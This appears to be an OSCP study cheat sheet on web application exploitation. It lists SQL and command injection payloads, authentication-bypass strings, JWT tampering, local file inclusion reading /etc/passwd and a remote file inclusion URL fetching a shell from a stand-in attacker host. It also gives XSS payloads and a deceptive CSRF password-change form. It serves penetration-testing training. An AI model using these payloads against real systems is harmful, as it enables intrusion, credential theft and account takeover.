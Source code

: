 # Web Application Exploitation

This section covers common web application vulnerabilities and exploitation techniques essential for the OSCP exam.

## 📋 Table of Contents
1. [Injection Attacks](#injection-attacks)
2. [Authentication Bypass](#authentication-bypass)
3. [File Inclusion](#file-inclusion)
4. [XSS & CSRF](#xss--csrf)
5. [Tools](#-tools)
6. [Practice](#-practice)

## Injection Attacks

### SQL Injection
```sql
-- Basic UNION-based
' UNION SELECT 1,2,3--

-- Error-based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--

-- Time-based (MySQL)
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--
```

### Command Injection
```bash
; whoami
| id
`id`
$(id)
```

## Authentication Bypass

### SQL Auth Bypass
```sql
admin'--
admin' OR '1'='1
admin'--
admin'#
' OR 1=1--
' OR '1'='1'--
```

### JWT Tampering
```
# Change algorithm to "none"
{"alg":"none","typ":"JWT"}

# Change user role
{"user":"admin","role":"admin"}
```

## File Inclusion

### Local File Inclusion (LFI)
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

### Remote File Inclusion (RFI)
```
http://example.com/index.php?page=http://attacker.com/shell.txt
```

## XSS & CSRF

### XSS Payloads
```html
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
```

### CSRF POC
```html
<form action="http://example.com/change-password" method="POST">
  <input type="hidden" name="new_password" value="hacked">
  <input type="submit" value="Click for free stuff">
</form>
```

## 🛠 Tools
- **Burp Suite**: Intercepting proxy
- **SQLmap**: Automated SQL injection
- **Commix**: Automated command injection
- **JWT Tool**: JWT manipulation
- **XSS Hunter**: Blind XSS exploitation

## 📚 Resources
- [OWASP Top 10](https://owasp.org/Top10/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [HackTricks](https://book.hacktricks.xyz/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## 🎯 Practice
1. [WebGoat](https://github.com/WebGoat/WebGoat)
2. [DVWA](https://github.com/digininja/DVWA)
3. [Juice Shop](https://github.com/bkimminich/juice-shop)
4. [Hack The Box](https://www.hackthebox.com/)

## ⚠️ Legal Note
Only test systems you own or have explicit permission to test.
